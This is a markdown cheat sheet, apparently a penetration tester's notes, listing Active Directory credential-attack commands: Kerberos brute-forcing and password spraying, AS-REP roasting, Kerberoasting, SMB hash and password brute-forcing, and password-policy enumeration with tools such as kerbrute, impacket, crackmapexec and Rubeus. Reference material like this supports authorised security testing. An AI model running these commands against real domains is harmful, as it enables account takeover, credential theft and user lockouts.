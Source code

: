 # Passwords & Policy
## Kerberos
Brute-forcing - WILL LOCKOUT USER
`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`
`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`

AS-REP Roasting:
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/ -usersfile <USERLIST>` remote
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` remote
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --asreproast <OUTPUT>` remote
`Rubeus.exe asreproast /format:hashcat /nowrap` local

Kerberoasting:
`impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` remote
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --kerberoasting <OUTPUT>` remote
`setspn -T medin -Q */*` local

## RPC
Password policy:
`rpcclient -U '<USER>%<PASS>' <IP> -c 'getdompwinfo'` (domain info)
`rpcclient -U '<USER>%<PASS>' <IP> -c 'getusrdompwinfo'` (user info)

## NetBIOS & SMB
Brute-forcing:
`crackmapexec smb <IP> -u <USER> -H <HASHES>`
`crackmapexec smb <IP> -u <USER> -p <PASSLIST>`

Password policy:
`polenum -u <USER> -p <PASS> -d <IP>`
`crackmapexec smb <IP> -u <USER> -p <PASS> --pass-pol`

Change users password:
`smbpasswd -U <USER> -r <IP>`